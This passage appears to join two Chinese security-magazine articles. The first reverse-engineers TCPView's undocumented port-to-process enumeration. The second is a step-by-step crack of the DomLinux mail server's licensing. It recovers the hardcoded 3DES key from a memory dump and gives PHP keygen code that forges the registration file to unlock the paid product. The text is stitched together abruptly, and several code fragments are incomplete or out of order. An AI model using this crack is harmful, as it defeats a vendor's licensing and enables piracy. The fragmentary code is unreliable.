从 AllocateAndGetTcpExTableFromStack 这个函数名可以了解到，它用于获取 TCP 的 ExTable。网上查找发现它是个未公开函数，功能是取得进程的 PID 及对应的端口号。

继续往下看，还可以找到 GetProcAddress 获取的另一个名字叫 AllocateAndGetUdpExTableFromStack 的函数。这两个函数的原型如下：

```c
DWORD WINAPI AllocateAndGetTcpExTableFromStack(
    OUT PMIB_TCPTABLE_EX* pTcpTableEx,
    IN BOOL bOrder,
    IN HANDLE hAllocHeap,
    IN DWORD dwAllocFlags,
    IN DWORD dwProtocolVersion
);

DWORD WINAPI AllocateAndGetUdpExTableFromStack(
    OUT PMIB_UDPTABLE_EX* pUdpTableEx,
    IN BOOL bOrder,
    IN HANDLE hAllocHeap,
    IN DWORD dwAllocFlags,
    IN DWORD dwProtocolVersion
);
```

这两个函数的功能是获取 TCP 和 UDP 的连接表。第一个参数 MIB_TCPTABLE_EX 和 MIB_UDPTABLE_EX 的定义如下：

```c
typedef struct _MIB_TCPROW_EX {
    DWORD dwState;
    DWORD dwLocalAddr;
    DWORD dwLocalPort;
    DWORD dwRemoteAddr;
    DWORD dwRemotePort;
    DWORD dwProcessId;
} MIB_TCPROW_EX, *PMIB_TCPROW_EX;

typedef struct _MIB_TCPTABLE_EX {
    DWORD dwNumEntries;
}
```

```c
typedef struct _MIB_UDPROW_EX {
    DWORD dwLocalAddr;
    DWORD dwLocalPort;
    DWORD dwProcessId;
} MIB_UDPROW_EX, *PMIB_UDPROW_EX;

typedef struct _MIB_UDPTABLE_EX {
    DWORD dwNumEntries;
    MIB_UDPROW_EX table[ANY_SIZE];
} MIB_UDPTABLE_EX, *PMIB_UDPTABLE_EX;
```


图2

我们先到调用函数的地方看看，并将调用的函数 sub_4052B0 命名为 GetPortInfo。在此函数中可以得到如下代码：

```asm
.text:00405499    call    pTCPFun
...
.text:004054B5    call    pUDPFun
...
.text:004054C6    call    pCreateToolhelp32Snapshot
.text:004054CC    mov     ebx, dword ptr [esp+88h+var_70]
```

把 AllocateAndGetTcpExTableFromStack 和 AllocateAndGetUdpExTableFromStack 的函数指针分别命名为 pTCPFun 和 pUDPFun。可以看到这段代码首先调用上面的两个函数获取 TCP 和 UDP 连接列表，然后调用 CreateToolhelp32Snapshot 获取当前进程列表，根据列表中的 PID 和获取的进程列表匹配，从而获取当前连接的进程。

再使用 IDA 的交叉参考功能，看看在哪里调用了 GetPortInfo 函数，发现在 WndProc 中，而且找到了如下代码：

```asm
.text:00405B68    push    0          ; int
.text:00405B6A    push    0          ; dwStackSize
.text:00405B6C    push    offset GetPortInfo ; int
.text:00405B71    call    _beginthread
```

这段代码将 GetPortInfo 作为线程处理函数，在 WndProc 中新建了一个线程，专门用于获取端口的连接信息。

根据上面的分析，我们知道了 Mark 是在 WinMain 函数中首先获取两个未公开函数的指针，以及枚举进程的 3 个函数的指针，然后在窗口处理函数中开启一个线程，在这个线程中不停地枚举端口连接信息，然后刷新 TCPView 的显示列表。

这样，通过对 TCPView 的逆向，我们又学到了一种在 Ring3 下枚举端口进程连接的方法。

继续往下看，看看在该函数中还做了什么，代码如下：

```asm
.text:004066AE    push    offset aCreatetoolhelp ; "CreateToolhelp32Snapshot"
.text:004066B3    push    offset aKernel32_dll   ; "kernel32.dll"
.text:004066B8    call    edi ; GetModuleHandleA
.text:004066BA    push    eax ; hModule
.text:004066BB    call    esi ; GetProcAddress

.text:004066CB    push    offset aProcess32first ; "Process32First"
.text:004066D0    push    offset aKernel32_dll   ; "kernel32.dll"
.text:004066D5    call    edi ; GetModuleHandleA
.text:004066D7    push    eax ; hModule
.text:004066D8    call    esi ; GetProcAddress

.text:004066E8    push    offset aProcess32next  ; "Process32Next"
.text:004066ED    push    offset aKernel32_dll   ; "kernel32.dll"
.text:004066F2    call    edi ; GetModuleHandleA
.text:004066F4    push    eax ; hModule
.text:004066F5    call    esi ; GetProcAddress
```

这段代码从 kernel32.dll 中分别得到了 CreateToolhelp32Snapshot、Process32First 以及 Process32Next 这 3 个函数的地址，而这 3 个函数是典型的在 Ring3 下枚举进程的函数。也就是说，上面这些代码是为以后枚举进程做准备的。

程序在获取这些函数指针后，都保存了起来。通过 IDA 右键菜单中的“跳转到参考选定操作的交叉参考”功能，可以找到如图2所示的信息。在此处可以找到两处保存函数指针的变量，一处用于给变量赋值，另一处则是调用这个函数。

## 前置知识：PHP，Linux

关键词：破解，DomLinux，本地验证

### 攻破 DomLinux 邮件服务系统


文／图 华兴电脑科技

新世纪企业发展迅速，很多商客都喜欢把商务与电子邮件紧密联系，很多企业都希望有自己的邮件服务器达到高速高效。此时新问题出来了：架设邮件服务器对于众多的生意人来说，是件难题。正因如此，全能的邮件服务系统 DomLinux 出现了。官方竭力把易安装、易维护、易使用的特性完全融入到此系统里面，所以只要懂得中文与英文，都可以轻松架设使用此邮件服务系统。虽然 Linux 系统免费，可是开发商却不愿把此邮件服务系统免费供给我们使用，而且要注册相应用户数的费用也不少。一向喜欢研究安全技术的我经过了 24h（小时），终于有了本文。

在此先说一下，DomLinux 有两种发行形式，第一种是 DomLinux 版，就是电子盘发行，通俗来说就是一个可以插 IDE 槽的 U 盘。另一种是 CdLinux 版，就是光碟版。这套系统相对同类功能的系统来说，体积不大，约有 70 多 MB。未注册版全功能可免费累计使用 60 天，累计时间一到，不能再使用，除非硬盘重新格式化再安装，这样才可以再有 60 天的使用时间。

当我下载到此光碟版的 DomLinux 时，开始推敲此系统的注册认证流程。因为 Linux 系统与 Windows 系统的结构不同，在 Windows 上的大部分软件注册认证是在软件本身，认证信息都是存注册表或生成注册文件保存；而 Linux 由于是开源的，在此平台上的软件很容易在所在内核里添加上检测注册码的代码，然后一同编译，所以对于不懂编程与反编译内核技术的人来说，是很头痛的问题。破解现在开始了，请不要带着汇编语言的技术去看，因为你会很失望，下面的分析过程完全没有一点汇编语言的出现。

首先分析一下使用界面，因为使用界面里面有“软件注册”的功能，这地方不能不分析，如图1所示。


图1

当我随意把 3 栏都填上字串提交时，会出现注册失败提示。换句话说，此页面的功能有验证注册码的信息。也就是说，只要找到此页面的源码，就可以看到它是如何验证的。这一指向使我寻找光碟上的文件，希望能找到此页面的代码。

由于此光碟版的 DomLinux 系统是在引导后，把光碟上的程序文件解压到内存盘（在物理内存上开辟一块空间，挂装成磁盘或目录）上，启动服务，把所有内容都加载到内存上，访问速度当然比存放在磁盘上的快多了。因为页面上的 URL 请求采用了编码加密再转成 Base64，所以不知 Key 的前提下，反编 Base64 也得不到相应信息，所以要从光碟上的文件入手，进行下一步分析。在光碟上的“PKG\PKGS\HDD\”这个目录下，找到很多 PKG 文件。其实这些 PKG 文件都是经过打包压缩而成的，所以我们用 WinRAR 进行二次解压释出，就可以得到此包里面的真正内容了。

经过二次解包“70_WEBAD.PKG”后，进入到最深层目录，发现有很多疑似 PHP 的 PHS 文件。当初我也暗暗偷笑，还以为花点时间把 PHP 语句看清楚就能找到线索，谁知道打开任一个文件，眼都发呆了：全加密了，如图2所示。至于它是用什么加密也全没头绪，因为如果是用 Zend，在开头肯定有此标记。


图2

于是开始大胆设想，初步认为是可逆算法。至于理由是没有，它应是在 PHP 解释模块里面调用此文件时反算出真正源码。如果是可逆算法，要找到密钥应不难，因为密钥肯定在某个 SO 模块里面。最重要的是，这些编码是不是真的可逆。为了验证这些编码是不是可逆的，我想出了一种窥探内存的办法：就是用虚拟机来跑这套系统，然后把它的内存 Dump 出来，因为虚拟机 VMware 有暂停功能，在暂停时把系统各方面信息都冻结，然后保存。这也方便我在 Windows 平台上用工具分析。

虚拟机暂停后，会在相应位置上生成一个内存文件（如果不知怎样使用 VMware 可查阅相关资料，在此就不说了）。使用 WinHex 打开内存文件，扩展名为 *.vmem，通过 WinHex 的字符串搜索功能，就会看到不完整的代码段，如图3所示。至于关键字眼当然是 PHP 常用到的语句，如“if(”、“var $”这些。

从上面杂乱的信息里面可以看到都是 PHP 语法代码，这也证实了我之前的大胆设想是正确的。在证实了那些 PHS 文件是可逆加密算法后，当然是查找更多有用的 PHP 代码，搜索“reginfo”尽量找到与注册相关的信息。因为内存上的 PHP 代码残散而不全，所以要花点心思整理。以下是我从内存中整理出来的一段代码。

```php
<?
...
class CAdmin_base{
```


图3

```php
var $shadow='/etc/shadow';var $demodays=60;var $battdays=30;
//mytest
var $account_limit=50000;var $cdlinux=0;
var $mkey;var $msn;
var $sactomilebel='SATADOM';
var $activefile='/hd2/.XCFG/etc/dom3/cdactivecode.bin';
var $timefile='/hd2/.XCFG/etc/.tfile';
var $resusers=array
```

从 $activefile 这个变量内容上可以看到，“cdactivecode.bin”可能是存放注册码的文件。在整理这些代码时，还找到了一个很重要的验证注册码函数。

```php
function chkRegPkg($pkgstr){
  $pkg=unserialize($this->my_decode(base64_decode($pkgstr)));
  if(md5($pkg[act])==$pkg[md5sum]) return $pkg[act];
  return false;
}
```

从此函数里面的流程可以看到传入字符串的反码处理：先是用 Base64 反码，再用“my_decode”函数来解密，最后把数据还原信息。这一反码过程也说明了编码过程是先把数据处理成字节流数据，再用“my_encode”加密，然后再 Base64 编码。由于“my_decode”是非 PHP 内部函数，为了探究函数怎样解码，所以还得在 WinHex 里面继续搜索此函数（如果 WinHex 在此内存映像文件里面找不到，得重新在 Web 页面上输入长一些的数据来注册，然后再暂停导出虚拟机内系统的内存文件再找）的名字字串。如果想更快把这个解码函数快速定位，当然用“function my_decode”这字串进行搜索。只要通过这样的顺藤摸瓜的方法去查找，很容易就能找到所谓“my_decode”的算法是怎样了。下面是从内存中整理出来的代码。

```php
function my_decode($pw){
  $key = "howd0youcanturnthis0n";
  $td = mcrypt_module_open("tripledes", "", "ecb", "");
  $iv = mcrypt_create_iv(mcrypt_enc_get_iv_size($td), MCRYPT_RAND);
  mcrypt_generic_init($td, $key, $iv);
  $spw = mdecrypt_generic($td, $pw);
  mcrypt_generic_deinit($td);
  mcrypt_module_close($td);
  return $spw;
}

function my_encode($str){
  $key = "howd0youcanturnthis0n";
  $td = mcrypt_module_open("tripledes", "", "ecb", "");
  ...
  return $spasswd;
}
```

```php
$dom = join("", file("/ram/.dom_"));
if (strpos($dom, '$d') !== false){
  if (is_file("/pkg/reg/.register.conf")) unlink("/pkg/reg/.register.conf");
}

if ($rescode == "1"){
  $js->alert("Register successful!");
  $js->UpdateThisFrame("");
} else if ($rescode == "3"){
  $js->alert("Warning! Serial number have be registered!");
} else {
  $js->alert("Warning! Please register again!");
}
```

从函数的前两行代码可以找到加密算法是用 PHP 加密库里面的 ECB 算法，密钥是“howd0youcanturnthis0n”。

现在理清了传入注册码的加解密过程，还得去找是什么程序取得了注册码，也就是说是哪些代码里面调用到“chkRegPkg”函数。定位这函数的方法跟前面定位“my_decode”函数的方法一样，以下整理出来的代码。

把这段不完整的代码分析一下，就会发现程序是先取得本机的一些信息，然后加密发送到认证服务器，把返回的数据作一个简单的分离处理，把加密的注册码提取出来，再调用“chkRegPkg”检验 MD5 验证加密的注册码是否合法；如果合法，就把“$str”里面的数据写入到“$admin->activefile”里，也就是开头代码的文件路径“/hd2/XCFG/etc/dom3/.cdactivecode.bin”。

现在隐隐约约知道了验证过程，但还有一点没分析到，就是注册码在本地是如何来确认邮件服务系统已注册呢？因为它不可能每次验证本地的注册码都连接到注册服务器进行确认注册码，应该还有一个函数来做本地验证注册。为了探究此函数，我们还得用 WinHex 进行搜索，看看有没有线索。通过搜索“reg”这个字符串，很快又定位了两个比较有用的函数，下面把这两个函数的代码写出来。

```php
$info = $this->getInfo(&$row);
$postfields = 'info=' . urlencode(base64_encode($admin->my_encode(serialize($info))));
$serverinfo = "http://" . CDWEB_HOME . ":" . CDWEB_PORT . "/swreg/server_register/";
if ($admin->cdlinux) $serverinfo = 'http://up.cdlinuxserver.com/register/';

$this->putinfo(&$postfields, &$res, $serverinfo);
$spaceindex = strpos($res, ":", 0);
$rescode = substr($res, 0, $spaceindex);
$resval = substr($res, $spaceindex + 1);

switch ($rescode){
  case 3:
  case 1:
    if ($str = $admin->chkRegPkg($resval)){
      $fs = fopen($admin->activefile, 'wb');
      fwrite($fs, $str);
      fclose($fs);
      if (file_exists('/.cdrom')){
        if (is_file('/ram/.dom_')){
          ...
        }
      }
    }
}
```

```php
function GetRegInfo(){
  // 从 $activefile 里面获取到加密的注册码，然后再解密返回
  $activefile = $this->activefile;
  if (file_exists($activefile)){
    $fh = fopen($activefile, 'rb');
    if ($fh){
      $str = fread($fh, filesize($activefile));
      fclose($fh);
      $act = unserialize($this->my_decode(base64_decode($str)));
      return $act;
    }
  }
}

function is_softreg(){
  $act = $this->GetRegInfo();
  if ($act['limits']){
    ...
  }
}
```

```php
// 对 GetRegInfo() 的返回码进行条件处理
$this->account_limit = $act['limits'];
return -1;
return 0;
```

```php
mcrypt_generic_deinit($td);
mcrypt_module_close($td);
return $spasswd;
}

function make_regcode(){
  $str[0]['keycode'] = '93d32ba3bbdccdcb8ddfeef4e9a37573'; // 官方的注册码
  $str[0]['limits'] = 100; // 限定用户数
  $res = base64_encode(my_encode(serialize($str[0])));
  return $res;
}
$reg_code = make_regcode();
echo "生成 .cdactivecode.bin 内容:<br>" . $reg_code . "<br>";
?>
```

当看到“is_softreg”这个函数时，让我彻底晕了，原来本地验证注册码是否合法，就是看解密后的 `$act` 里面的 `$act['limits']` 有没有数值，如果有的话就证明此邮件服务系统已注册成功。但是 `$act` 里面的数据是从 `/hd2/XCFG/etc/dom3/.cdactivecode.bin` 里面读取再解密的。虽然字符串的加解密函数可以还原它的注册码，但是注册码是何种格式、有多少位，完全分析不到。无意中，我发现在官方的演示页面里有关于注册码的内容，如图4所示。


图4

这使我又再一次惊喜，因为从“GetRegInfo”与“is_softreg”这两个函数里面可以知道，存在 `.cdactivecode.bin` 的加密注册码是用户输入的注册码与用户数量结合加密的，从代码上并没有发现与注册用户的 E-mail、机器码什么的相结合，而且这一结合是可逆的。换句话来说，重组成加密的注册码的话，就能达到成功注册。为了测试我的观点，我把官方演示页里的注册码复制下来进行 `.cdactivecode.bin` 文件内容还原。下面是我用 PHP 把加密的注册码还原的核心代码。

```php
<?
function my_encode($str){
  $key = "howd0youcanturnthis0n";
  $td = mcrypt_module_open("tripledes", "", "ecb", "");
  $iv = mcrypt_create_iv(mcrypt_enc_get_iv_size($td), MCRYPT_RAND);
  mcrypt_generic_init($td, $key, $iv);
  $spasswd = mcrypt_generic($td, $str);
}
```

如图5所示为此注册码的加密码，只要把加密码保存在安装 DomLinux 的硬盘里的 `/hd2/XCFG/etc/dom3/.cdactivecode.bin` 文件里面（用第三方的 Linux 启动盘引导，把加密的注册码写进此文件），重启 DomLinux，就成功达到注册效果了。


图5


图6

从图6可以看出，所谓的注册码只是与用户限定数相结合，也就是说只要把 `.cdactivecode.bin` 里面的数据还原出来就实现了注册破解。原来价值万元的全能邮件服务系统就是用这么简单的本地验证的，这才让我对其破解有了可乘之机。另外，关于以上的注册漏洞，我已通知官方。